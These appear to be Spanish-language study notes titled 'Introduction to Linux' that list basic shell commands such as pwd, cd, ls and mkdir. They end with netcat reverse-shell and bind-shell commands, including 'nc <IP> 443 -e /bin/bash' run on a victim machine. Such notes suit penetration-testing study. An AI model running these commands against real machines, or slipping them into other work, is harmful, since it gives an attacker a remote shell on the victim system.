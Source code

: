 # Introduction to Linux ❮❯

Tags: #Linux #Comandos 

❯ **Ctrl + l** Limpiamos la pantalla en la consola Linux (l=ele)

❯ **sudo su -** Para ser root
❯ **su root** Para cambiar de usuario y convertirnos en root

❯ **pwd** 'Print Work Directory' nos muestra la ruta actual de trabajo
❯ **cd** 'Change Directory' cambiamos de directorio con una ruta 
	❯ **cd ..** Regresamos un directorio
	❯ **cd home** Podemos ir al directorio home, si en el folder ya se encuentra el folder no es necesario poner un /
	❯ **cd /home/user/downloads** Podemos ir a un folder especifico con la ruta absoluta
❯ **ls** Podemos ver el contenido de un folder
	❯ **ls -la** Podemos ver el contenido de un folder, ademas de archivos ocultos
❯ **mkdir Dir1** Podemos crear un directorio, en este caso llamado Dir1
❯ **rmdir Dir1** Podemos eliminar el folder creado 

Rever Shell
❯ **nc -nlvp 443** Maquina atacante para recibir la ReverShell de Netcat 'Listening'
❯ **nc ❮IP❯ 443 -e /bin/bash** Maquina victima para mandar la RecerShell 'Connecting'
- IP -> De la maquina de atacante su IP

Bind Shell
❯ **nc ❮IP❯ 443** Maquina atacante 'Connecting'
* IP -> Es la IP de la maquina victima
❯ **nc -nlvp 443 -e /bin/bash** Maquina victima 'Listening'